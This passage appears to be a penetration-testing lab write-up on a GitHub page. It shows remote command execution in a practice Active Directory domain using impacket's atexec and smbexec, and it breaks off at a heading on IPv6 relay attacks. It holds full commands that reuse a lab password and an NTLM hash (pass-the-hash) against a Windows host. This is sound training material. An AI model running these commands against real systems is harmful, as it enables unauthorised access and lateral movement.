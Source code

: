 ### 🔴 Manual mode using psexec.py / wmiexec / atexec 
Using impacket-psexec there seems to be a failure in popping a shell when using psexec.
![image](https://github.com/user-attachments/assets/b241e679-e193-444a-b7ef-4ff5e68e1a43)

attempted to use wmiexec instead, with no success. However after some trial and error atexec seemed like the one to go with. Unsure as to the reason why this one worked, but there seems to be some research suggesting the prior ones may be mitigated by Defender.  

👍Using atexec with domain/user and password

            impacket-atexec MARVEL/fcastle:'Password1'@192.168.64.139 "whoami"
![image](https://github.com/user-attachments/assets/3bdef2d4-e172-4b36-aaa0-c0927494f0d8)  

👍Using atexec with administrator and hash

            impacket-atexec administrator@192.168.64.139 -hashes aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc "whoami"
![image](https://github.com/user-attachments/assets/36981884-3a94-4d8e-a8e9-d0c4508988ed)

👍Using smbexec with domain/user and password

            impacket-smbexec MARVEL/fcastle:Password1@192.168.64.139  
![image](https://github.com/user-attachments/assets/3852e0ef-d03a-4df7-a508-aed4d5e33ff3)

👍Using smbexec with administrator and hash

            /home/kali# impacket-smbexec administrator@192.168.64.139 -hashes aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc
![image](https://github.com/user-attachments/assets/6d13d42c-9e78-472c-8164-52fe8f118a14)

### 🟣 Findings  
After some trial and error, not all 'execs' will work and this is normal in the real world. Through trial and error in this case the two that was discovered to work for both 'domain/user + password' and 'administrator + password' was **impackets**:
* atexec
* smbexec

### Other Remote command execution tools in Windows environments to attempt if one does not work.

1. Psexec
2. Wmiexec
3. SMBexec
4. Atexec

---

## 🚩 IPv6 Attacks - Another form of relaying  

IPv6 can be used to conduct authentication via DNS to the Domain Controller via LDAP or SMB.  

To identify if IPv6 exsists on a network or endpoint the following nmap command can be used:  
**General Discovery** 
                        
